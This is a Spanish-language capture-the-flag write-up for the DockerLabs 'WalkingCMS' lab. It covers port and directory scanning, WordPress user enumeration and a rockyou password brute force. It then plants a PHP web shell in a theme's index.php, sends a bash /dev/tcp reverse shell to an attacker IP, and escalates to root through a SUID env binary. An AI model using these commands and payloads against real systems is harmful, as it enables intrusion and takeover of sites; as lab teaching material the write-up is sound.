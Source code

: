 # Máquina WalkingCMS

Dificultad: Easy

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada al puerto 80.

```shell
nmap -sCV -p80 172.17.0.2 -oN targeted
________________________________________________
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Vemos la versión de Apache, un título, pero poca información relevante. Accedemos a la web para seguir inspeccionando:

![Pasted image 20240412122449](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/a7fdac50-3ccd-43ab-9f48-48a8d310cd7b)


Se trata de la web por defecto de Apache, por lo que procederemos a realizar **fuzzing** para descubrir directorios y posibles archivos:

```shell
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash
________________________________________________
/icons/               (Status: 403) [Size: 275]
/wordpress/           (Status: 200) [Size: 52441]
/server-status/       (Status: 403) [Size: 275]  
```

Encontramos un directorio **wordpress**. Accedemos.

![Pasted image 20240412122740](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/556bf2c2-e6de-46d5-9bda-0c4fcebb7014)

Como efectivamente se trata de **WordPress**, utilizaremos la herramienta **wpscan** para enumerarla, para intentar encontrar posibles usuarios, directorios, plugins vulnerables, etc.

```shell
wpscan --url http://172.17.0.2/wordpress/ --enumerate u,vp
________________________________________________
[i] User(s) Identified:

[+] mario
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://172.17.0.2/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
```

La información más importante que obtenemos del escaneo es un usuario -> **mario**
Lo aprovechamos para realizar un ataque de **fuerza bruta** usando otra vez **wpscan** y el famoso diccionario de contraseñas **rockyou**.

```shell
wpscan --url http://172.17.0.2/wordpress/ -U mario -P /usr/share/wordlists/rockyou.txt
________________________________________________
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - mario / love                                                                                                                                                                                                                                
Trying mario / badboy Time: 00:00:01 <                                                                                                                                                                          > (390 / 14344782)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: mario, Password: love
```

El ataque de fuerza bruta da resultado y obtenemos la contraseña de **mario** -> **love**
Trataremos de encontrar el panel de login donde le podamos dar uso a estas credenciales usando de nuevo **gobuster**. En este caso haremos un escaneo por directorios y por archivos con extensiones como php o html.

```shell
gobuster dir -u http://172.17.0.2/wordpress/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,txt,html
________________________________________________
/wp-content           (Status: 301) [Size: 323] [--> http://172.17.0.2/wordpress/wp-content/]
/index.php            (Status: 301) [Size: 0] [--> http://172.17.0.2/wordpress/]             
/wp-login.php         (Status: 200) [Size: 6580]                                             
/license.txt          (Status: 200) [Size: 19915]                                            
/wp-includes          (Status: 301) [Size: 324] [--> http://172.17.0.2/wordpress/wp-includes/]
/readme.html          (Status: 200) [Size: 7401]                                              
/wp-trackback.php     (Status: 200) [Size: 136]                                               
/wp-admin             (Status: 301) [Size: 321] [--> http://172.17.0.2/wordpress/wp-admin/]   
/xmlrpc.php           (Status: 405) [Size: 42]                                                
/wp-signup.php        (Status: 302) [Size: 0] [--> http://172.17.0.2/wordpress/wp-login.php?action=register]
```

Accedemos en la web al directorio **/wp-admin**:

![Pasted image 20240412123821](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/9f71fbb1-ac16-4fb2-a8df-cb29a1d3ea20)

---------------
##  Explotación

Probamos las credenciales en el panel de login:
Logramos acceder como el usuario mario que es **administrador**.
Una vez dentro con sesión de administrador, una forma de lograr ejecución remota de comandos sobre la máquina -> (**RCE**), es editar alguno de los temas, en este caso se está usando el Twenty Twenty-Two en la página principal. Nos dirigimos a alguno de los recursos que tiene y editaremos por ejemplo el **index.php**

![Pasted image 20240412125523](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/a489b0b4-5d3b-4980-89ff-93082e6b53f3)

Borraremos este código y pondremos el nuestro propio, que al ser interpretado nos permita enviar valores con los comandos que queremos ejecutar a través del método **GET**, y a través del parámetro **cmd**:

```php
<?php
	system($_GET['cmd']);
?>
```

Nos dirigimos a la ruta donde podremos encontrar los **temas** por defecto en wordpress, dentro de la ruta de nuestro tema que es el Twenty Twenty-Two hemos modificado el index.php. Así que cargamos la siguiente URL pasándole un valor al parámetro **cmd** que hemos definido:

```
http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/index.php?cmd=id
```

Comprobamos que se ejecuta de forma correcta y hemos logrado el **RCE**.

![Pasted image 20240412125845](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/f15be9cf-af40-4e2c-88e8-20904b54d17e)

A continuación nos enviamos la **Reverse shell** a nuestra máquina atacante, poniéndonos antes en escucha por el puerto 443 con netcat:

```shell
nc -nlvp 443
```

(Es posible que para escuchar con netcat por el puerto 443 necesites ser el usuario root)

```
http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/index.php?cmd=bash -c "bash -i >%26 /dev/tcp/192.168.1.39/443 0>%261"
```

Los **"%26"** corresponden al símbolo **"&"** de forma URL-encodeada para que no den conflicto.

Hemos ganado acceso a la máquina:

![Pasted image 20240412135523](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/3552ef3d-715a-41d9-a846-bc970b5c94a8)

------------
### Tratamiento de la tty

Realizaremos un breve **tratamiento de la tty** para poder operar de forma cómoda sobre la consola. Los comandos a ejecutar:

```shell
script /dev/null -c bash 
```
(hacemos  **ctrl  +  Z**)

```shell
stty raw -echo; fg
reset xterm
stty rows 62 columns 248
export TERM=xterm
export SHELL=bash
```

Pondremos en rows y columns las columnas y filas que correspondan a la pantalla de nuestra máquina.
Una vez hecho esto podemos maniobrar con comodidad, pudiendo hacer Ctrl+L para limpiar la pantalla así como Ctrl+C.

-----------------
## Escalada de privilegios

En el /etc/passwd no encontramos ningún usuario **mario** al que podamos migrar con las credenciales que ya tenemos. Tampoco podemos hacer **"sudo -l**.
Buscaremos por binarios con permisos **SUID** desde la raíz:

```shell 
find / -perm -4000 2>/dev/null
________________________________________________
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/su
/usr/bin/umount
/usr/bin/env
```

Nos llama la atención el binario **/usr/bin/env**.
Si no sabemos como explotarlo (o si no sabemos si es posible abusar de él para escalar privilegios), podemos recurrir a [GTFOBins](https://gtfobins.github.io/) , y si es crítico esta página nos indicará como podemos explotarlo. En este caso es sencillo ya que con env podemos lanzarnos directamente una consola, y al ser ejecutado como el root gracias al permiso **SUID**, esta consola será lanzada con sus permisos, de forma que hemos logrado el nivel de privilegios máximo sobre la máquina !

```bash
./usr/bin/env /bin/sh -p
________________________________________________
whoami
root
```

